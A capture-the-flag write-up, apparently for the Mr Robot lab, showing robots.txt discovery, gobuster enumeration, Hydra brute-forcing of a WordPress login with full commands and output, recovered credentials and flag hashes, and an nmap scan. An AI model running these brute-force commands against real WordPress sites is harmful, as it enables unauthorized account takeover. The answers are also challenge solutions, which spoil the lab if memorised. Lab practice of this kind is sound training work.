

## What is key 1?

the hint says: robots

we nagivate to http://10.10.63.240/robots.txt and get this

```
User-agent: *
fsocity.dic
key-1-of-3.txt
```
go to:

http://10.10.63.240/key-1-of-3.txt

ans: 073403c8a58a1f80d943455fb30724b9

## What is key 2?

we use gobuster to discover this is a wordpress website with a wp-login page

```
kali@kali:~/Downloads$ gobuster dir -u http://10.10.63.240:80 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.63.240:80
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/07/22 03:56:59 Starting gobuster
===============================================================
/images (Status: 301)
/blog (Status: 301)
/rss (Status: 200)
/sitemap (Status: 200)
/login (Status: 302)
/0 (Status: 301)
/feed (Status: 200)
/video (Status: 301)
/image (Status: 301)
/atom (Status: 200)
/wp-content (Status: 301)
/admin (Status: 301)
/audio (Status: 301)
/intro (Status: 200)
/wp-login (Status: 200)
/css (Status: 301)
/rss2 (Status: 200)
/license (Status: 200)
/wp-includes (Status: 301)
/js (Status: 301)
/Image (Status: 301)
/rdf (Status: 200)
/page1 (Status: 200)
/readme (Status: 200)
/robots (Status: 200)
/dashboard (Status: 302)
/%20 (Status: 301)
/wp-admin (Status: 301)
/phpmyadmin (Status: 403)
/0000 (Status: 301)
Progress: 12561 / 220561 (5.70%)^C
[!] Keyboard interrupt detected, terminating.
===============================================================
2020/07/22 04:09:21 Finished
===============================================================
```

download the fsocity.dic file from 10.10.63.240/fsociety.doc

We open up fsociety.dic - it looks like it could be a list of usernames or passwords. Lets try to brute force the username of the wordpress login using hydra

First we need to get the http-post-form from burpsuite



we get this line from burpsuite

```
log=myname&pwd=mypassword&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.116.182%2Fwp-admin%2F&testcookie=1
```

then format it to use with hydra

```console
kali@kali:~/Downloads$ hydra -L fsocity.dic -p test 10.10.107.219 http-post-form "/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.107.219%2Fwp-admin%2F&testcookie=1:F=Invalid username"
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-07-23 01:15:37
[DATA] max 16 tasks per 1 server, overall 16 tasks, 858235 login tries (l:858235/p:1), ~53640 tries per task
[DATA] attacking http-post-form://10.10.107.219:80/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.107.219%2Fwp-admin%2F&testcookie=1:F=Invalid username
[80][http-post-form] host: 10.10.107.219   login: Elliot   password: test
```

the username is Elliot

now we use the same dictionary file to brute force the password

```console
kali@kali:~/Downloads$ hydra -l Elliot -P fsocity.dic 10.10.182.118 http-post-form "/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.182.118%2Fwp-admin%2F&testcookie=1:F=The password you entered for the username"
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-07-23 09:09:23
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 858236 login tries (l:1/p:858236), ~53640 tries per task
[DATA] attacking http-post-form://10.10.182.118:80/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.182.118%2Fwp-admin%2F&testcookie=1:F=The password you entered for the username
[80][http-post-form] host: 10.10.182.118   login: Elliot   password: ER28-0652
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-07-23 09:10:07
```

the password is: ER28-0652


## What is key 3?

the hint says: nmap

```console
kali@kali:~/Downloads$ nmap -sV -v -Pn -n -p80,443 10.10.63.240
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-22 03:15 EDT
NSE: Loaded 45 scripts for scanning.
Initiating Connect Scan at 03:15
Scanning 10.10.63.240 [2 ports]
Discovered open port 80/tcp on 10.10.63.240
Discovered open port 443/tcp on 10.10.63.240
Completed Connect Scan at 03:15, 0.40s elapsed (2 total ports)
Initiating Service scan at 03:15
Scanning 2 services on 10.10.63.240
Completed Service scan at 03:15, 14.39s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.63.240.
Initiating NSE at 03:15
Completed NSE at 03:15, 3.53s elapsed
Initiating NSE at 03:15
Completed NSE at 03:15, 3.20s elapsed
Nmap scan report for 10.10.63.240
Host is up (0.40s latency).

PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd
443/tcp open  ssl/http Apache httpd

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.24 seconds
```
